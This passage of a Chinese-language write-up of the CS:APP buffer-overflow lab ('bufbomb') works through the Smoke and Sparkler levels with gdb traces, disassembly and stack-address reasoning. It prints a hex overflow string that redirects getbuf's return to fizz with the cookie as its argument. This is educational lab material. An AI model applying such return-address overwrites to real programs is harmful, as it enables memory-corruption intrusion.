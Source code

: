 从上面看到我们从buf（0x556836b8）开始的内容全部改成了我们的输入的字符串，并且可以看到getbuf完后成功返回到smoke的入口地址。最后继续：

    (gdb) c
    Continuing.
    Type string:Smoke!: You called smoke()
    VALID
    NICE JOB!
    [Inferior 1 (process 20794) exited normally]
成功完成！

###Test2: Sparkler
bufbomb中有个fizz函数：

    void fizz(int val)
    {
        if (val == cookie) {
            printf("Fizz!: You called fizz(0x%x)\n", val);
            validate(1);
        } else
            printf("Misfire: You called fizz(0x%x)\n", val);
        exit(0);
    }

**实验任务**：test执行完getbuf后跳转到执行fizz，与之前不同的是，fizz有个参数，同时要将这个参数设为cookie这个值。

这个任务主要是要知道函数参数如何入栈(几种不同的方式：cdecl, stdcall, fastcall, thiscall等)，可参考前面提到的文章。

将getbuf的返回地址设为fizz入口地址这个跟前面实验一样，关键是在哪里设置这个参数。
前面gdb调试可看到在getbuf中执行时，ebp=0x556836e0，所以当getbuf执行完跳入fizz之前，esp=0x556836e8（为什么？因为getbuf最后执行两条指令leave和ret，leave会将ebp赋给esp，然后pop ebp，而ret指令相当于pop eip，共两次pop，整个过程相当于esp=ebp+4+4）。
fizz反汇编如下：

    8048c42 <fizz>:
    8048c42:	55                   	push   %ebp
    8048c43:	89 e5                	mov    %esp,%ebp
    8048c45:	83 ec 18             	sub    $0x18,%esp
    8048c48:	8b 45 08             	mov    0x8(%ebp),%eax
    8048c4b:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax

进入fizz后，执行第一条指令push ebp，此时esp=esp-4=0x556836e4，然后执行mov %esp, %ebp，此时ebp=0x556836e4。根据上面的cmp指令可看出fizz的参数地址为ebp+0x8=0x556836ec，
这就是我们要放入cookie的值的地址（buf的起始地址仍跟前面一样0x556836b8）。
level2.txt的输入字符串如下：


    31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 42 8c 04 08 31 31 31 31 f4 4a b2 3a

上面08048c42是fizz的入口地址，3ab24af4是cookie。
执行如下命令：

    cat level1.txt  | ./hex2raw.py | ./bufbomb -u yj
    Userid: yj
    Cookie: 0x3ab24af4
    Type string:Fizz!: You called fizz(0x3ab24af4)
    VALID
    NICE JOB!
成功完成！
